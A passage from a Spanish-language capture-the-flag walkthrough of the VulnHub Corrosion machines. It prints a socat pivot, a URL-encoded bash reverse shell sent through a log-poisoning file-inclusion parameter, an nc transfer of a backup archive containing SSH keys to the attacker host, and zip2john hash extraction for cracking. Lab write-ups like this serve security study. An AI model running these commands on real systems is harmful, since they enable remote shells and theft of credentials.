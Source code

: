 ```java
2023-01-20 17:57:24 (63.1 MB/s) - ‘socat’ saved [375176/375176]
bash-5.0# chmod +x socat 
```
Para establecer la comunicación mediante socats ponemos en escucha un puerto y toda la comnunicación que viene por ese puerto sea reenviado al equipo atacante.
```java
bash-5.0# ./socat TCP-LISTEN:4646,fork TCP:192.168.200.147:443
```

Para lanzar shell por la url, apuntamos al puerto 4646, por lo que, usamos el redireccionamiento enviando al equipo corrosion2 192.168.210.128 y esto enviará la comunicación al equipo atacante.

```java
http://192.168.210.129/blog-post/archives/randylogs.php?file=/var/log/auth.log&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.210.128/4646 0>%261"

┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/content]
└─# nc -nlvp 443                                                
listening on [any] 443 ...
connect to [192.168.200.147] from (UNKNOWN) [192.168.200.151] 37966
bash: cannot set terminal process group (892): Inappropriate ioctl for device
bash: no job control in this shell
www-data@corrosion:/var/www/html/blog-post/archives$ 
```

En el equipo corrosion1 hacemos la transferencia del archivo con el siguiente comando, 
```java
www-data@corrosion:/var/backups$ nc 192.168.210.128 4646 < user_backup.zip 
```

En la ejecución anterior se puede ver que el tráfico fue reenviado del equipo corrosion2, y el siguiente paso es hacer el tratamiento de la tty. Listamos los archivos vamos hasta la ruta /var/backups y descargamos el archivo `user_backups.zip` utilizando nc, por lo que primero ponemos en escucha el puerto y lo recibido enviamos a un archivo
```java
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/content]
└─# nc -nlvp 443 > user_backup.zip
listening on [any] 443 ...
```
Una vez recibido el archivo podemos verificar la conexion de nc 
```java
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/content]
└─# nc -nlvp 443 > user_backup.zip
listening on [any] 443 ...
connect to [192.168.200.147] from (UNKNOWN) [192.168.200.151] 37988
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/content]
└─# ls -la | grep user_
.rw-r--r-- root       root       3.2 KB Fri Jan 20 20:23:47 2023 user_backup.zip
```
Verificamos que el archivo esta cifrado por lo que obtenmos un hash para empezar la ruptura del hash.
```java
┌──(root㉿kali)-[/home/…/vulnhub/corrosion2/content/corrosion1]
└─# zip2john user_backup.zip > hash     
ver 2.0 efh 5455 efh 7875 user_backup.zip/id_rsa PKZIP Encr: TS_chk, cmplen=1979, decmplen=2590, crc=A144E09A ts=0298 cs=0298 type=8
ver 2.0 efh 5455 efh 7875 user_backup.zip/id_rsa.pub PKZIP Encr: TS_chk, cmplen=470, decmplen=563, crc=41C30277 ts=029A cs=029a type=8
ver 1.0 efh 5455 efh 7875 ** 2b ** user_backup.zip/my_password.txt PKZIP Encr: TS_chk, cmplen=35, decmplen=23, crc=21E9B663 ts=02BA cs=02ba type=0
ver 2.0 efh 5455 efh 7875 user_backup.zip/easysysinfo.c PKZIP Encr: TS_chk, cmplen=115, decmplen=148, crc=A256BBD9 ts=0170 cs=0170 type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
```
